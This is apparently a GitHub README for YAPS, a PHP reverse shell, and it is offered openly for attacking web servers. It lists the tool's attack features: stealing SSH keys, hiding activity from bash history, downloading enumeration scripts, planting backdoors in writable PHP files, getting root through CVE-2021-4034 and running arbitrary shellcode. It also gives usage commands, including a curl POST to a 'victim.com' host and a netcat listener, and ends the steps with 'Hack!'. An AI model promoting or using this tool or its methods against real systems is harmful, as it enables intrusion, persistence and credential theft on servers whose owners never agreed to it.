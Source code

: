 # YAPS - **Y**et **A**nother **P**HP **S**hell

![image](https://user-images.githubusercontent.com/3837916/152913972-59b182f7-aa98-4b48-bb60-16dfdcc02fc3.png)


Yes, as the name reveals, this is yet another PHP reverse shell, one more among hundreds available out there, but with some advantages. It is a single PHP file containing all its functions and you can control it via a simple TCP listener (e.g. `nc -lp 1337`).

In the current version (1.5), its main functions support only linux systems, but i'm planning to make it work with Windows too.

It's currently in its first version and I haven't tested it much yet, and *there are still many things I intend to do and improve for the next versions (**it's not done yet!**)*, so please let me know if you've found any bugs or have some suggestion for feature or improvement. =)


## Features
* Single PHP file (no need to install packages, libs, or download tons of files)
* Works with netcat, ncat, socat, multi/handler, almost any listener
* Customizable password protection
* No logs in .bash_history
* Does some enumeration
  * Network info (interfaces, iptables rules, active ports)
  * User info
  * List SUID and GUID files
  *  Search for SSH keys (public and private)
  *  List crontab
  *  List writable PHP files
* Auto download LinPEAS, LinEnum or Linux Exploit Suggester
* Write and run PHP code on remote host
* Spawn an interactive reverse shell
* Duplicate as many connections as you want
* Auto update
* Infect PHP files with backdoors
* Auto reverse root shell via pwnkit (CVE-2021-4034)
* **[NEW] Send and execute shellcode**

## Cons
* Connection isn't encrypted (yet) (nc does not support SSL)
* Not fully interactive (although you can spawn an interactive shell with `!interactive`)
  * CTRL+C breaks it; can't use arrows to navigate (unless you use `rlwrap nc -lp <ip> <port>`)

## Usage
1. Set up a TCP listener;
2. Set your IP and port. This can be done by:
* 2.1 Editing the variables at the start of the script;
* 2.2 Setting them via post request (`curl -x POST -d "x=ip:port" victim.com/yaps.php`);
3. Open yaps.php on browser, curl it or run via CLI;
* 3.1 You can set `yaps.php?s` or `yaps.php?silent` to supress the banner
* 3.2 You can run via CLI with `php yaps.php ip port`
5. Hack!

## Working commands
* `!help - Display the help menu`
* `!all-colors - Toggle all colors (compatible with colorless TTY)`
* `!color - Toggle PS1 color (locally only, no environment variable is changed)`
* `!duplicate - Spawn another YAPS connection`
* `!enum - Download LinPEAS and LinEnum to /tmp and get them ready to use`
* `!info - list informations about the target (the enumeration I mentioned above)`
* `!infect - Infect writable PHP files with backdoors`
* `!interactive - Spawn interactive reverse shells on other ports (works w/ sudo, su, mysql, etc.)`
* `!passwd - Password option (enable, disable, set, modify)`
* `!php - Write and run PHP on the remote host`
* `!suggester - Download Linux Exploit Suggester to /tmp and get it ready to use`
* `!pwnkit - Tries to exploit CVE-2021-4034 and spawn a root revere shell`

## Screenshots

<details>
  <summary>Click to expand screenshots section</summary>

### Current commands:
![commands](https://user-images.githubusercontent.com/3837916/153728054-82ab16ab-99b1-4113-863a-01f8fbeb6d04.png)

### Doing some recon:
![image](https://user-images.githubusercontent.com/3837916/127257433-778b1322-c82e-4857-897f-0f3f459dcb2b.png)

### Root reverse shell through CVE-2021-4034
![pwn](https://user-images.githubusercontent.com/3837916/152597200-267704b9-0d50-4bcd-a68f-3c8ea6c74c21.gif)
 
### Sending and running shellcode!
![shellcode](https://user-images.githubusercontent.com/3837916/153727126-a57c95a5-6447-4988-a57b-851b808df93e.gif)

### Spawning a interactive shell
![interactive](https://user-images.githubusercontent.com/3837916/153728966-ed70a9ff-29c4-435e-898f-6180df7ac048.gif)

### Duplicating a YAPS session
![duplicate](https://user-images.githubusercontent.com/3837916/153727468-dbbb6ef6-6461-4f2a-95dc-32940d797a39.gif)

### Poisoning PHP files
![infect](https://user-images.githubusercontent.com/3837916/127263363-e286357c-2be0-4890-8895-4bd5adadd3af.gif)

### Writing remote PHP code
![remotephp](https://user-images.githubusercontent.com/3837916/124774830-7dedab80-df14-11eb-9e84-c8d88b9f4de2.png)

### Password protected shell
![passprotected](https://user-images.githubusercontent.com/3837916/127260459-cc50203d-3ba6-408b-af0f-820756e9891d.png)

</details>


## Changelog

**v1.5 - 12/02/2022**
- Added `!shellcode` to receive and run an arbitrary shellcode 
- Improved `duplicate()` function (you can now a range of ports)
- Changed function name from `stabilize` to `interactive`
- Packed embeded codes to save space
- Fixed broken links
- Prepend "TERM=xterm" to all commands
- Minor improvements

**v1.4 - 04/02/2022**
- Added `!pwnkit` to exploit CVE-2021-4034 and spawn a root reverse shell
- Improved `verify_update()` function
- Minor improvements

**v1.3.1 - 01/08/2021**
- Bugs fixed

**v1.3 - 28/07/2021**
- Added `!infect` to infect PHP files with backdoors
- Changed `!stabilize` payload (bugs fixed)

**v1.2.2 - 18/07/2021**
- Changed 'update' function
- Changed 'connect' function
- Improved 'download' function
- Bugs fixed

**v1.2.1 - 17/07/2021**
- Bugs fixed

**v1.2 - 17/07/2021**
- Added `!duplicate` to spawn another shell
- Added update verification (`--update|-u`)
- Added CLI arguments (`--help|-h`)
- Added socket via arguments (`php yaps.php ip port`)
- Changed stabilize shell method (doesn't freeze anymore)
- Changed download method
- Changed connection method via POST (receives a single parameter)

**v1.1 - 12/07/2021**
- Added `!all-colors` to toggle terminal colors and work with colorless TTYs
- Added `exit` command to close socket (leave shell)
- Changed payload in `!stabilize` to unset HISTSIZE and HISTFILE
- Changed the method of obtaining CPU and meminfo in `!info` 

**v1.0.1 - 08/07/2021**
- Changed `[x,y,z]` to `array(x,y,z)` to improve compatibility with older PHP versions
- Changed payload for interactive shell to work with PHP<5.4

## Credits
Some ideas were inspired by this tools:

#### Linpeas
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

#### Linenum
https://github.com/rebootuser/LinEnum

#### Suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester

#### Pentest Monkey
https://github.com/pentestmonkey/php-reverse-shell

####  Arthepsy exploit for pwnkit
https://github.com/arthepsy/CVE-2021-4034/
